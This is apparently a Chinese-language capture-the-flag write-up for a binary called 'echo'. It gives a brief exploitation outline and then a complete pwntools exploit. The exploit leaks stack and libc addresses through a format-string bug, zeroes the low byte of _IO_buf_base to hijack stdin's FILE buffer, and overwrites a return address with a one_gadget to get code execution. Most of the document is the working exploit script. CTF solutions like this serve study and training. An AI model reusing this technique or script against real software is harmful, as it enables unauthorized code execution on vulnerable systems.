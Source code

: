 这里可以用将_IO_buf_base末位写0的方法

## 利用思路
* 泄露地址:libc的，stack的(发现stack泄露后如果算stack的基址发现算不准...不知道为啥,但是只要直接用泄露的stack和目标的偏移来那就每次都有用)
* 向栈上填入_IO_buf_base的地址
* 将IO_buf_base的最低字节改成0(这么做是因为IO_buf_base最低字节置为0后指向IO_buf_base前一些的位置)
* 因为read_ptr=read_end所以将会向IO_buf_base指向位置写入
* 向IO_buf_base写入返回地址其余位置仿照之前的来伪造
* 通过利用getchar来改变read_ptr使其等于read_end
* 向返回地址写入one_gadget

## EXP
```python
#coding:utf-8
from pwn import *
def echo(c):
	p.sendline("2")
	p.readuntil("number:")
	p.sendline("-1")
	p.sendline(c)
def leave_str(addr):
	p.sendline("1")
	p.readuntil("str :")
	p.sendline(addr)
def fmt_seek(lenth):
	for x in range(1,lenth):
		echo("%{}$p".format(str(x)))
		data=p.readline()
		if (data=="(nil)\n"):
			data="0x0"
		data=(int(data,16))
		log.success("%sth=============>%s",str(x),hex(data))

context.log_level='debug'
p=process('./echo')
#fmt_seek(20)
#leak stack#
echo("%p")
data=p.readline()
stack=(int(data,16))
log.success("Stack=============>%s",hex(stack))
#leak libc#
echo("%19$p")
data=p.readline()
libc=(int(data,16))-0x20830
log.success("Libc==============>%s",hex(libc))
#set payload
_IO_buf_base=libc+(0x7ffff7dd18e0-0x7ffff7a0d000)+7*0x8
leave_str(p64(_IO_buf_base))
echo("%16$hhn")
p.sendline("2")
ret=stack+(0xa8-0x90)
payload=p64(libc+(0x00007ffff7dd1963-0x00007ffff7a0d000))*3+p64(ret)+p64(ret+0x30)
p.send(payload)
p.sendline()
for x in range(0x28):
	p.sendline("2")
	p.readuntil("number:")
	p.sendline("")
one_gadget=0xf1147+libc
p.send(p64(one_gadget))
p.readline()
```